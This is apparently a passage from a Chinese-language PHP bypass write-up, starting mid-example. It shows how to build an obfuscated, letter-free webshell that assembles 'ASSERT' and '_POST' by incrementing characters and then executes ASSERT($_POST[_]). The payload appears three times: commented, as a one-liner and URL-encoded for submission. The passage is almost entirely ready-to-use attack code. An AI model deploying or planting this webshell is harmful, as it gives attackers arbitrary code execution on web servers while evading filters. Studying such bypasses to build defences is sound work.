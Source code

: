 ```
$____ .= $__;   //$____=&#34;_P&#34;
$__ = $_;   //$__=&#34;A&#34;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;   //得到&#34;O&#34;，此时$__=&#34;O&#34;
$____ .= $__;   //$____=&#34;_PO&#34;
$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;   //得到&#34;S&#34;，此时$__=&#34;S&#34;
$____ .= $__;   //$____=&#34;_POS&#34;
$__&#43;&#43;;   //得到&#34;T&#34;，此时$__=&#34;T&#34;
$____ .= $__;   //$____=&#34;_POST&#34;
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($_POST[_])
```

放到一行`ASSERT($_POST[_])`

```
$_=[];$_=@&#34;$_&#34;;$_=$_[&#39;!&#39;==&#39;@&#39;];$___=$_;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$___.=$__;$___.=$__;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$___.=$__;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$___.=$__;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$___.=$__;$____=&#39;_&#39;;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$____.=$__;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$____.=$__;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$____.=$__;$__=$_;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$__&#43;&#43;;$____.=$__;$_=$$____;$___($_[_]);
```

url编码`ASSERT($_POST[_])`

```
%24_%3d%5b%5d%3b%24_%3d%40%22%24_%22%3b%24_%3d%24_%5b%27!%27%3d%3d%27%40%27%5d%3b%24___%3d%24_%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24____%3d%27_%27%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24_%3d%24%24____%3b%24___(%24_%5b_%5d)%3b
```
